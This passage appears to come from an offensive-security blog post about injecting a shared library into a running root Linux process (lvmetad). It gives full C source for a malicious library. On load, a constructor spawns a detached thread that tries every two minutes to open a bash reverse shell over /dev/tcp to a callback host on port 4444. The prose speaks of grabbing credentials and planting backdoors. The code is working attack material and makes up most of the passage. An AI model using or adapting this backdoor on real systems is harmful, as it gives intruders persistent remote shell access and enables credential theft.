 In some cases, something short-lived, killable, and running as a user is good
if the injected code only needs to run for a short time (e.g. something to
survey the box, grab creds, and leave) or if there's a good chance it'll need
to be stopped the hard way.  It's a judgement call.

We'll use `664 root     /sbin/lvmetad -f`.  It should be able to do anything
we'd like and if something goes wrong we can restart it, _probably_ without too
much fuss.

### Malware

More or less any linux shared object file can be injected.  We'll make a small
one for demonstration purposes, but I've injected multi-megabyte backdoors
written in Go as well.  A lot of the fiddling that went into making this blog
post was done using [pcapknock](https://github.com/magisterquis/pcapknock).

For the sake of simplicity, we'll use the following.  Note that a lot of error
handling has been elided for brevity.  In practice, getting meaningful error
output from injected libraries' constructor functions isn't as straightforward
as a simple `warn("something"); return;` unless you really trust the standard
error of your victim process.
```c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "<REDACTED>"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL);
}

/* callback tries to spawn a reverse shell every so often.  */
void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
```